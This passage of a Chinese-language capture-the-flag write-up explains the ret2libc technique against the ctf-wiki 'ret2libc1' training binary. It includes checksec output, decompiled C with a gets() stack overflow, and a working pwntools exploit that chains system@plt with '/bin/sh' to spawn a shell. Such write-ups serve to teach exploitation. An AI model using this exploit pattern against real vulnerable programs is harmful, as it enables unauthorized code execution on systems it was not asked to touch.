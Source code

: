 ## ret2libc

控制程序执行 libc 中的，通常是返回至某个函数的 plt 或函数具体位置（已知 got 表内容）。

[ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1)

```shell
gef➤  checksec
[+] checksec for '/home/kali/pwn/ret2libc1'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(&s);
  return 0;
}
```

gets 溢出，同时能找到 system_plt 和 /bin/sh，直接往栈里填就行了。

```python
##coding=utf8
from pwn import *

r = process('./ret2libc1')

offset = 0xffffd5d8 - 0xffffd56c + 4
bin_sh = 0x08048720
system_plt = 0x08048460

rop = [
    system_plt,
    0xdeadbeef,
    bin_sh,
]

print offset
r.sendline('a'*offset + ''.join(map(p32, rop)))
r.interactive()
```

## ret2libc2
